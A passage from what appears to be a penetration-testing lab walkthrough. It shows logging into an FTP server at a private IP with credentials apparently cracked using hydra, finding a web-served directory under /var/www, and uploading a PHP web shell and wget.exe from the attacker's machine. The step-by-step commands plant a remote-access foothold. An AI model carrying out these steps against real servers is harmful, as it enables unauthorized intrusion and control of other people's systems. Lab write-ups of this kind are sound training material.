 now will be crack ftp user admin-it password junior with hydra:

$`ftp 192.168.244.132`

`admin-it`

`junior`

>`pwd`
now you are in the home dirictory of the admin-it

let to go to web service directory 

>`cd /var/www`

>`ls`

will see the admin-it folder with the permsion 

now will be enter to this folder 

>`cd admin-it`

>`ls`

now the folder is empty



this folder can be open by the web server in browser:



so you can upload to this folder a file

in my attacker ip in the /home/feras there is   files  wget.exe and simple-webshell.php it will be upload to the /var/www/admin-it
 
 use command put upload file:

>`put simple-webshell.php`

if you want to upload or download files ascii in ftp you must type the binary or ascii before put or get command

>`binary`

>`put wget.exe`






